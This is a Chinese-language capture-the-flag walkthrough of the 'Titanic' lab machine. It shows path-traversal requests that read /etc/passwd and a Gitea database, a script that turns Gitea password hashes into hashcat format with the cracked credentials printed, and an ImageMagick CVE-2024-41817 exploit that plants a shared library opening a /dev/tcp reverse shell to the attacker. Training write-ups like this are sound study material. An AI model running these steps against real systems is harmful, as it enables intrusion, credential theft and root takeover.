


# Titanic

:::info

Difficulty: Easy

Operating System: Linux

:::

## ENTRY POINT

```plaintext
10.10.11.55
```

## 资产探测

```bash
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -v --min-rate=2000 -A -p- 10.10.11.55
Nmap scan report for bogon (10.10.11.55)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http       Apache httpd 2.4.52
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 1.682 days (since Wed Mar 26 22:58:07 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: titanic.htb
```

## Port 80 Web Service

添加 hosts 记录之后，尝试访问


页面上只有一个预定船票的交互点


上传数据之后，会返回一个 json 数据

```json
{
    "name": "vaalacat/push_f12",
    "email": "12@12.com",
    "phone": "12",
    "date": "1212-12-12",
    "cabin": "Standard"
}
```

注意到页面指纹，可能存在有 SSTI 漏洞



尝试使用基本的测试 payload


```json
{
    "name": "{{7+7}}",
    "email": "{{7+7}}@1.com",
    "phone": "{{7+7}}",
    "date": "1212-12-12",
    "cabin": "Standard"
}
```

并未起效

在查看网络通信的过程中，发现其存在有路劲穿越漏洞

```bash
┌──(randark ㉿ kali)-[~]
└─$ http get http://titanic.htb/download?ticket=../../../../../../etc/hostname
HTTP/1.1 200 OK
Cache-Control: no-cache
Connection: Keep-Alive
Content-Disposition: attachment; filename="../../../../../../etc/hostname"
Content-Length: 8
Content-Type: application/octet-stream
Date: Fri, 28 Mar 2025 07:12:36 GMT
ETag: "1722523321.3563066-8-1490357844"
Keep-Alive: timeout=5, max=100
Last-Modified: Thu, 01 Aug 2024 14:42:01 GMT
Server: Werkzeug/3.0.3 Python/3.10.12

titanic
```

参考 Flask 常见的开发守则，尝试读取程序源码

```python
# http get http://titanic.htb/download?ticket=../app.py
from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4

app = Flask(__name__)

# Directory to save the JSON files
TICKETS_DIR = "tickets"

# Ensure the directory exists
if not os.path.exists(TICKETS_DIR):
    os.makedirs(TICKETS_DIR)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/book', methods=['POST'])
def book_ticket():
    data = {
        "name": request.form['name'],
        "email": request.form['email'],
        "phone": request.form['phone'],
        "date": request.form['date'],
        "cabin": request.form['cabin']
    }

    # Generate a unique ID for the ticket
    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    # Save the data as a JSON file
    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    # Redirect to the download URL with the ticket filename
    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

经过简单的代码审计，其并未存在有 RCE 的利用可能性

## 分析环境信息

尝试读取 `/etc/passwd` 的文件内容

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

在其中分析存在有以下用户账户

```plaintext
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

## FLAG - USER

通过路径穿越，可以得到

```flag title="/home/developer/user.txt"
1e8046aa82b0f33c2eb157145fc6cf9c
```

## Subdomain Brute

尝试对子域名进行爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://titanic.htb -H 'Host: FUZZ.titanic.htb' -fc 301

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.titanic.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 301
________________________________________________

dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 246ms]
```

## Gitea Database Leak

添加 hosts 记录之后，尝试访问


在 Gitea 中，可以发现两个储存库



在 `http://dev.titanic.htb/developer/docker-config` 中，可以得到以下信息

```yml title="mysql/docker-compose.yml"
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```

```yml title="gitea/docker-compose.yml"
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

同时，确定 Gitea 的版本是 `1.22.1`

根据 Gitea 的官方文档，可以推断数据库文件可能位于 `/home/developer/gitea/data/gitea/gitea.db`

```bash
┌──(randark ㉿ kali)-[~]
└─$ wget http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db
--2025-03-28 15:47:25--  http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db
正在解析主机 titanic.htb (titanic.htb)... 10.10.11.55
正在连接 titanic.htb (titanic.htb)|10.10.11.55|:80... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：2084864 (2.0M) [application/octet-stream]
正在保存至: “download?ticket=..%2F..%2F..%2F..%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db”

download?ticket=..%2F..%2F..%2F..%2Fhome%2Fdevelope 100%[===================================================================================================================>]   1.99M   749KB/s  用时 2.7s

2025-03-28 15:47:29 (749 KB/s) - 已保存 “download?ticket=..%2F..%2F..%2F..%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db” [2084864/2084864])
```

同时在网上，找到这份 [gitea2hashcat.py](https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271)

```python
import sqlite3
import base64
import sys

if len(sys.argv) != 2:
    print("Usage: python3 gitea3hashcat.py <gitea.db>")
    sys.exit(1)

try:
    con = sqlite3.connect(sys.argv[1])
    cursor = con.cursor()
    cursor.execute("SELECT name,passwd_hash_algo,salt,passwd FROM user")
    for row in cursor.fetchall():
        if "pbkdf2" in row[1]:
            algo, iterations, keylen = row[1].split("$")
            algo = "sha256"
            name = row[0]
        else:
            raise Exception("Unknown Algorithm")
        salt = bytes.fromhex(row[2])
        passwd = bytes.fromhex(row[3])
        salt_b64 = base64.b64encode(salt).decode("utf-8")
        passwd_b64 = base64.b64encode(passwd).decode("utf-8")
        print(f"{name}:{algo}:{iterations}:{salt_b64}:{passwd_b64}")
except Exception as e:
    print(f"Error: {e}")
    sys.exit(1)
```

运行后，可以得到 Gitea 的身份凭据哈希

```plaintext
PS D:\_Code\test> python .\test-12.py .\gitea.db
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

尝试使用 Hashcat 对凭据哈希进行爆破

```plaintext title="hash.txt"
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

```bash
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -d 1 -O -a 0 -m 10900 .\hash.txt .\dics\rockyou.txt --show
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

得到了一份用户凭据 `developer:25282528`

## User - developer

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs developer@10.10.11.55
[16:06:01] Welcome to pwncat 🐈!
Password: ********
[16:06:10] 10.10.11.55:22: registered new host w/ db
(local) pwncat$ back
(remote) developer@titanic:/home/developer$ whoami
developer
```

## 提权至 root

使用 `linpeas.sh` 分析提权可能性

```plaintext
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/developer/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
/usr/bin/docker
/snap/bin/lxc
/usr/sbin/runc
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... No
═╣ Any running containers? ........ No
```

未发现有用的提权信息

尝试使用 `pspy` 监控系统进程

```bash
(remote) developer@titanic:/tmp$ ./pspy64 -f=true
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
......
2025/03/28 08:44:01 FS:                 OPEN | /opt/scripts/identify_images.sh
2025/03/28 08:44:01 FS:               ACCESS | /opt/scripts/identify_images.sh
2025/03/28 08:44:01 FS:        CLOSE_NOWRITE | /opt/scripts/identify_images.sh
2025/03/28 08:44:01 FS:                 OPEN | /opt/scripts/identify_images.sh
2025/03/28 08:44:01 FS:               ACCESS | /opt/scripts/identify_images.sh
2025/03/28 08:44:01 FS:        CLOSE_NOWRITE | /opt/scripts/identify_images.sh
```

同时查看脚本内容

```bash title="/opt/scripts/identify_images.sh"
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

推测是存在有一个不可见的定时任务，尝试使用 `CVE-2024-41817` 进行提权

```bash
(remote) developer@titanic:/tmp$ cd /opt/app/static/assets/images/
(remote) developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.31/8888 0>&1'");
    exit(0);
}
EOF
```

稍等片刻，即可收到回连的shell

```bash
┌──(randark㉿kali)-[~/tools]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.55] 60986
bash: cannot set terminal process group (2655): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# whoami
whoami
root
```

## FLAG - ROOT

```flag title="/root/root.txt"
4fcedc7f0403a1b2e231e629ca5c60cc
```
